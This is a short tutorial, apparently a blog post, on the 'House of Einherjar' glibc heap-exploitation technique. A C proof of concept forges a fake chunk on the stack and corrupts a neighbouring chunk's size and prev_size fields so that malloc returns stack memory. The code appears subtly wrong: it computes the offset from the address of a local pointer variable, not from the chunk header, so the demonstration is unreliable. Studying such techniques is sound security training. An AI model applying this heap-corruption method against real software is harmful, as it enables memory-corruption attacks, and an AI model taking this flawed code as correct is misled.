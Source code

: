 # House of Einherjar
> LongChampion, 21/03/2020

Let see how to *hijack* `malloc` return a fake chunk.
```
#include <stdlib.h>

struct CHUNK
{
    long long pre_size, size;
    struct CHUNK *fd, *bk, *nextsize_fd, *nextsize_bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x100 - 8);

    struct CHUNK Fake;
    Fake.fd = &Fake;
    Fake.bk = &Fake;
    Fake.nextsize_fd = &Fake;
    Fake.nextsize_bk = &Fake;

    struct CHUNK *Header = (struct CHUNK *) (b - 0x10);
    Header->size &= ~0xff;
    Header->pre_size = (long long) &Header - (long long) &Fake;
    Fake.size = Header->pre_size;

    free(b);
    void *STACK = malloc(0x100 - 8);
}
```
First, we need to create a fake chunk on stack. Because we will set size of this chunk to a very large value, struct `CHUNK` now have two additional pointer, `nextsize_fd` and `nextsize_bk`. Their functionalities are same as `fd` and `bk` pointer, btw. To bypass security checking, we simply set all four pointer point to ... a fake chunk itself. Don't be smile, it works in practice!.  
Then, assume we have ability to change `pre_size` and `size` of chunk `b`. The least significant byte of `b`'s size is set to 0x00, this will (almost all time) reduce the size of chunk `b` and clear `PREV_INUSE` flag of chunk `b` as well.  
Next, `pre_size` of chunk `b` and `size` of fake chunk are set to a value which equal to the distance between two chunks. Now if we free chunk `b`, glibc will *think* that our fake chunk is the previous chunk of `b`, and because we have cleared `PREV_INUSE` flag of `b`, glibc will consolidate them together and puts the merged chunk into unsorted_bin.  
The next `malloc` call with suitable request size will return out fake chunk as we expect.
